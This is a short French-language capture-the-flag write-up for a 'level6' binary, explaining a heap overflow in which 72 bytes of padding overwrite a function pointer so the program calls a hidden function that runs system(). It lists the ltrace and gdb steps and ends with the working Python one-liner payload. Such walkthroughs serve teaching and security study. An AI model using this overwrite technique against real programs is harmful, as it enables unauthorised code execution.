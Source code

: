 Le programme segfault sans argument car il essaye de strcpy un \0
On a un Main qui a un appel de la fonction M qui ne sert a rien mais on remarque une fonction N qui appel un system() c'est donc elle qui'il va falloir executer

Quand on disassamble le main on voit que y'a 2 malloc ( donc potentiel overflow)

ltrace ./level6 test

y'a 2 malloc : 1 de 64 et 1 de 4

c'est le malloc numero 2 qui appel le fonction N
<!--
on va trouver la memoire alloue dans la heap pour savoir au bout de combien d'octet on ecrase la malloc 2
avec comme adresse 0x0804a008 (64) vs 0x0804a050 (4)
si on fait 0x0804a050 - 0x0804a008 = 0x48 = 72 en decimal
on sait donc qu'il a 72 bytes qui separe le malloc 1 et 2 (car ils sont alloues en meme temps) -->

gdb level6

run (avec pattern : https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

en essayant on voit que ca segfault a 72 on va donc faire comme les autres flag

sauf que vu que le programme segfault a cause du strcpy on rajoute le python en argument de l'executable en lui donnant l'adresse decale de 72

info functions -> on voit l'adresse de "n" = 0x08048454 (donc : \x54\x84\x04\x08 en little-endian)

./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')